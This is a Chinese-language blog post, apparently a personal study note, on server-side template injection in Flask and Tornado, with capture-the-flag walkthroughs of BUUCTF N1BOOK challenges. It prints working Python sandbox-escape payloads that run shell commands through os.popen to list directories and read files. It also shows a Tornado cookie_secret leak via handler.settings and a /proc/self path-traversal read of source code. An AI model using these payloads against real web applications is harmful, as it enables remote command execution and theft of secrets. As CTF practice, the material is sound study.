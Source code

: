 ```yaml
---
title: 服务器模板注入 (SSTI)
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - 注入
    - SSTI
abbrlink: 1e38f0b9
description: ssti注入的流程和相关例题
tags:
---
```


## 服务器模板注入 (SSTI)

### 基本注入流程

```shell
''.__class__		显示这个东西的类
''.__class__.base__		找到这个的基类
''.__class__.__base__.__subclasses__()		看基类的子类
```

> 敏感子类
popen、sys、os

```shell
因为''.__class__.__base__.__subclasses__()返回的是一个列表，
所以直接''.__class__.__base__.__subclasses__()[425]查看的就是popen这个
```
> **注意：这里的425要根据```''.__class__.__base__.__subclasses__()```实际返回的数组，观察Popen的位置来决定**

到了这里就可以使用某些子类来进行操作了，下面使用[177]这个子类```<class 'warnings.catch_warnings'>```进行操作

比如说查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看目录下的文件，这里查看的是test目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /test").read()')
```
然后读取需要的文件，这里是读取test目录下的flag.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /test/flag.py").read()')
```

### 绕过限制

参考：[https://www.cnblogs.com/zaqzzz/p/10263396.html](https://www.cnblogs.com/zaqzzz/p/10263396.html)

### 通过模板注入获取tornado中的cookie

利用handler.settings对象
因此构造{{handler.settings}}

知识点
> (1)需要的cookie_secret在Application对象settings属性中

> (2)```self.application.settings```有一个别名```RequestHandler.settings```
而因为handler指向的是处理当前这个页面的RequestHandler对象，并且RequestHandler.settings是指向self.application.settings，因此构造的handler.settings指向RequestHandler.application.settings


参考来自：[https://blog.csdn.net/q20010619/article/details/107553119](https://blog.csdn.net/q20010619/article/details/107553119)

***
***

## 题目

### SSTI
> 这是一道来源于BUUCTF的N1BOOK的题目，[第三章 web进阶]SSTI

```shell
7*7
```
观察回显发现是flask模板注入

```shell
''.__class__.__base__.__subclasses__()
```
看看有什么子类可以利用
```shell
''.__class__.base__.__subclasses__()}
```

发现[177]这个子类是```<class 'warnings.catch_warnings'>```

利用它查看目录
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls").read()')
```
进一步查看app目录下的文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("ls /app").read()')
```
然后读取server.py文件
```shell
''.__class__.__base__.__subclasses__()[177].__init__.__globals__["__builtins__"].eval('__import__("os").popen("cat /app/server.py").read()')
```

题目有多种解法
参考来自：
[https://blog.csdn.net/CyhDl666/article/details/115004845](https://blog.csdn.net/CyhDl666/article/details/115004845)
[https://blog.csdn.net/qq_51558360/article/details/114493766](https://blog.csdn.net/qq_51558360/article/details/114493766)

### afr_3
> 这是一道来源于BUUCTF的N1BOOK的题目，[第一章 web入门]afr_3

开头是文件包含，经过一系列操作，
**根据```../../../../../proc/self/cmdline```得出的信息可以知道，当前正在运行 ```pythonserver.py```**

**在这里时需要想到，应该利用python的flask进行模板ssti注入，从而读取flag**

根据/proc/的特性，可以读取正在运行的```pythonserver.py```的源码
```?name=../../../../../proc/self/cwd/server.py```
> 原理是使用proc指定self代表当前进程，然后cwd指向运行的文件```pythonserver.py```

得到的信息里面有```flag.py```，但是直接访问显示权限不够
访问另一个的文件```key.py```得到
 ```shell
#!/usr/bin/python 
key = 'Drmhze6EPcv0fN_81Bj-nA'
 ```

后面待续




参考来自：
[https://www.cnblogs.com/murkuo/p/14905749.html](https://www.cnblogs.com/murkuo/p/14905749.html)